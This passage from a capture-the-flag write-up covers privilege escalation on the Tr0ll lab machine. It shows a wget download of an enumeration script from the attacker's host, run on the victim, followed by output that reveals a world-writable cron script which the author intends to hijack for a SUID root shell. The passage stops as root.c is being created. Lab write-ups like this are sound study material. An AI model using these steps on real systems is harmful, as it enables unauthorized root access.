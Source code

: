 Privilege Escalation
--------------------


### Enumeration

After logging in again, [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) script is downloaded to the victim's machine to enumerate possible privilege escalation vectors.

``
overflow@troll:/tmp$ wget 192.168.20.144/linuxprivchecker.py
--2019-09-15 17:47:57--  http://192.168.20.144/linuxprivchecker.py
Connecting to 192.168.20.144:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 25304 (25K) [text/x-python]
Saving to: ‘linuxprivchecker.py’

100%[======================================>] 25,304      --.-K/s   in 0s      

2019-09-15 17:47:57 (163 MB/s) - ‘linuxprivchecker.py’ saved [25304/25304]

overflow@troll:/tmp$ python linuxprivchecker.py 
=================================================================================================
LINUX PRIVILEGE ESCALATION CHECKER
=================================================================================================
[+] World Writable Files
    -rwxrwxrwx 1 troll root 8068 Aug 10  2014 /srv/ftp/lol.pcap
    -rwxrwxrwx 1 root root 34 Aug 13  2014 /var/tmp/cleaner.py.swp
    -rwxrwxrwx 1 root root 7296 Aug 11  2014 /var/www/html/sup3rs3cr3tdirlol/roflmao
    -rwxrwxrwx 1 root root 23 Aug 13  2014 /var/log/cronlog
    --w--w--w- 1 root root 0 Sep 15 17:45 /sys/fs/cgroup/systemd/user/1002.user/4.session/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 15 17:45 /sys/fs/cgroup/systemd/user/1002.user/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 15 17:30 /sys/fs/cgroup/systemd/user/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 15 16:41 /sys/fs/cgroup/systemd/cgroup.event_control
    -rw-rw-rw- 1 root root 0 Sep 15 16:41 /sys/kernel/security/apparmor/.access
    -rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
```

There are some interesting world writeable files on the system.

Enumerating contents of /var/log/cronlog and /lib/log/cleaner.py

```
overflow@troll:/var$ cat /var/log/cronlog 
*/2 * * * * cleaner.py
overflow@troll:/tmp$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /tmp/* ')
except:
	sys.exit()
```

It looks like cronlog file is a cron job which runs cleaner.py.

Since cleaner.py is editable, the command execute by os.system can be replaced with a few
commands that will make a SUID binary executing root shell.

First, SUID binary has to be created. The code for SUID binary can be found on
[GitHub](https://github.com/1N3/PrivEsc/blob/master/linux/linux_exploits/suid.c)

```
overflow@troll:/tmp$ nano root.c